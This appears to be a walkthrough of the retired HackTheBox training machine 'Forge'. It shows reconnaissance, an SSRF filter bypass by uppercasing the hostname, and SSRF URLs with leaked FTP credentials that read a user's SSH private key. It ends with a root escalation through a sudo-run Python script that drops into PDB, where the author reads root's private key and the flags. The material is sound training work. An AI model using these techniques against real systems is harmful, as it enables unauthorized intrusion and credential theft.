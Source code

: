 Title:HTB: Forge
Date: MM-01-2021 10:45
category:security
tags:security, boot2root, HTB, SSRF, LFI
meta:security, boot2root, HTB, SSRF, LFI

<img class="align-left" src="/media/2021.xx/forge_card.png" alt="Forge Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[Forge](https://www.hackthebox.eu/home/machines/profile/376) publish on
September 11, 2021 by
[NoobHacker9999](https://www.hackthebox.eu/home/users/profile/393721).
This box is rated as a medium machine but could be qualified as an easy medium
:). It implies a SSRF and an LFI as well as some Python and a
[PDB](https://docs.python.org/3/library/pdb.html).

<!-- PELICAN_END_SUMMARY -->

# Foothold

## Recon

Let us start as always by a `nmap` scan. Only port 80 (HTTP) and 22 (SSH) are
open.

    :::text
    # Nmap 7.91 scan initiated Friday Sep 17 04:59:56 2021 as: nmap -sSV -p- -oN notes.md -A 10.129.220.75
    Nmap scan report for 10.129.220.75
    Host is up (0.013s latency).
    Not shown: 65532 closed ports
    PORT   STATE    SERVICE VERSION
    21/tcp filtered ftp
    22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))

## Website

The website is a gallery that allow to upload an image either from the
filesystem or from an URL.

We use [wfuzz](https://github.com/xmendez/wfuzz) in addition to the
[subdomain secList](https://github.com/danielmiessler/SecLists/tree/master/Discovery/DNS)
to discover that the domain admin.forge.htb exist.

    :::text
    └─$ wfuzz -c -w subdomains-top1million-5000.txt --sc 200 -H "HOST:FUZZ.forge.htb" http://forge.htb
    /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://forge.htb/
    Total requests: 4989

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================

    000000024:   200        1 L      4 W        27 Ch       "admin - admin"

We cannot access the admin interface as some IP filtering is in place.
We try to includ the page by uploading it as an image using the URL but it
failes with an error message: "URL contains a blacklisted address!"

We try the same inclusiion by using upper case on the "FORGE" domain and got the
page http://admin.FORGE.htb

    :::HTML
    <title>Admin Portal</title>
    </head>
    <body>
        <link rel="stylesheet" type="text/css" href="/static/css/main.css">
        <header>
                <nav>
                    <h1 class=""><a href="/">Portal home</a></h1>
                    <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                    <h1 class="align-right"><a href="/upload">Upload image</a></h1>
                </nav>
        </header>
        <br><br><br><br>
        <br><br><br><br>
        <center><h1>Welcome Admins!</h1></center>
    </body>
    </html>

We look at the `announcements` page:

        :::html
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>


We try to load the FTP page using the disclosed credentials
`http://admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@FORGE.htb/`
We got two files `user.txt` and `snap`.

We take a look at the `.ssh/id_rsa` file (worst case scenario it does not
exist) using `http://admin.FORGE.htb/upload?u=ftp://user:heightofsecurity123!@FORGE.htb/.ssh/id_rsa`
and got the RSA private key. We can now connect as `user` using SSH and grab the
user flag.

    :::text
    └─$ ssh user@forge.htb -i id_rsa
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)
    user@forge:~$ cat user.txt
    4a8aed62cdd2fca87ce185b780ee3e89

# Root

We look at our privileges (`sudo -l`) and we see that we can run `/usr/bin/python3 /opt/remote-manage.py`
as `root` without password. Looking at the script it is a remote manager script
that will land us a [PDB](https://docs.python.org/3/library/pdb.html) if it got
a unrecognized input. So we launch the script, connect to it using another SSH
terminal and `nc`, then we just input a "q" that will not be recognize and get
a [PDB](https://docs.python.org/3/library/pdb.html) in our first shell allowing
us to load the `os` module and execute system commands as root using
`os.system([COMMAND])`.

    :::text
    user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
    Listening on localhost:59816
    invalid literal for int() with base 10: b'q'
    > /opt/remote-manage.py(27)<module>()
    -> option = int(clientsock.recv(1024).strip())
    (Pdb) --KeyboardInterrupt--
    (Pdb) import os
    (Pdb) os.system('id')
    uid=0(root) gid=0(root) groups=0(root)
    0

We just grab the root SSH private key and connect on the box as `root` allowing us
to get the flag.

    :::text
    (Pdb) os.system('ls /root/.ssh')
    authorized_keys  id_rsa  id_rsa.pub
    0
    (Pdb) os.system('cat /root/.ssh/id_rsa')
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAusTE7uvvBLrfqDLv6I/+Xc9W/RVGA4eFPOowUNkHDZ4MTUm4cK4/
    DdTvY7o7bvSinEX26rWdG4eVY3qnBGSACl3VIGX80NsWgyZwWQT20Vj0q8gf674RB4LfB6
    i6Awm8cbm3105HxfQnqr4qr2oJEpyDVaF29zpaS+6y0Ogq7HcRkSyQyErBnGmlOYBcBvvh
    <SNIP>
    -----END OPENSSH PRIVATE KEY-----

    └─$ ssh forge.htb -l root -i id_rsa_root
    root@forge:~# id
    uid=0(root) gid=0(root) groups=0(root)
    root@forge:~# cat root.txt
    5a7c66fcccbc8a380f220f349e6eea95

# Wrapping up

This box was really easy for a medium one. The root part really easy. I
triggered it by mistake as "q" for quit is an old habit. Once you get the
subdomain the user part just requires to follow the dots. A great medium box for
beginners.


